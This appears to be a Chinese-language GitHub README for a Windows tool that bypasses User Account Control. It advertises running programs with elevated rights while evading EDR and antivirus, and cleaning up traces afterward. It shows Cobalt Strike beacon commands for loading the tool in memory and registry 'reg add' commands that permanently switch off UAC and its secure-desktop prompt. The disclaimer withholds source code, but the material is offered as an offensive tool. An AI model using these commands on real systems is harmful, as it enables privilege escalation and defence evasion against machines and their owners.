




# ByPassUACTools

     

### 简介

- **Windows 平台下的UAC(User Account Contro) 限制绕过工具。**

- **Windows 7 及以上版本系统（含Server版）。**

- **UAC防护级别小于或等于默认等级、当前进程的用户权限为管理员组（Administrators）用户权限。**

---

### 免责说明

- **避免恶意使用此工具，故不提供完整的工程项目源码和二进制文件，主要分享和提供思路供大家参考。**

---

### 设计思路

UAC（User Account Control，用户帐户控制）是 Windows Vista 版本后开始引入的一种系统安全机制，它在操作系统中定义了多种用户访问的安全级别，可以防止在非管理员权限下的存在恶意应用程序或恶意进程对系统范围（管理员级别）的配置进行访问或资源调度。

1. **自动检测当前系统运行环境:**
     - 自动检测当前系统是否开启UAC与当前UAC等级是否满足Bypass条件；
     - 自动检测当前进程所属用户的权限是否为管理员权限；
2. **主要核心功能**:
     - 支持以ByPass UAC的方式执行一个指定的二进制程序；
     - 所有内置的ByPassUAC模块在执行时不触发EDR-Agent和杀毒软件的告警；
     - 具备痕迹清除，在执行特定的ByPassUAC模块后，在退出前会清理落地的文件和恢复已修改的配置；

---

### 功能演示

#### 1、以ByPass UAC的方式执行一个指定的二进制程序

> 在具有安全软件和默认开启UAC的系统环境下，启动`regedit.exe`为例
- 直接运行会触发UAC桌面弹框提示


- 通过`ByPassUACTools.exe`执行`regedit.exe`，则可以绕过系统UAC，同时该行为可以躲避杀软的系统防御检测。



#### 2、支持CobaltStrike Reflective DLL内存加载，绕过UAC运行指定的可执行文件（支持参数）

> 调用`C:\Windows\System32\cmd.exe`，附加参数执行指定的命令为例

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

#### 演示效果如下：

- 是否开启UAC

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- 查询UAC等级

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

- 执行需要管理员权限的特定命令进行测试

```
beacon> shell C:\Windows\System32\cmd.exe /c echo test > C:\test.txt

beacon> shell dir C:\test.txt
```

- 通过bypassuactools执行特定命令

```
bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

- 确认执行成果

```
shell type C:\test.txt
```




### 其他：

#### 1.增加了永久关闭UAC的方法 ：

##### 1.1 演示效果如下：



##### 1.2 设计原理

> 注解：系统UAC的配置均在该注册表路径下：
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/12867da0-2e4e-4a4f-9dc4-84a7f354c8d9

```
HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System
```
##### 关键的注册表键说明：

- ConsentPromptBehaviorAdmin (UAC强度级别)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin"
```
- EnableLUA (启动UAC策略)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- PromptOnSecureDesktop (禁用UAC桌面弹框提示)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop"
```

##### 具体操作：

>  无需重启即可生效

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop" /t reg_dword /d 0 /F
```

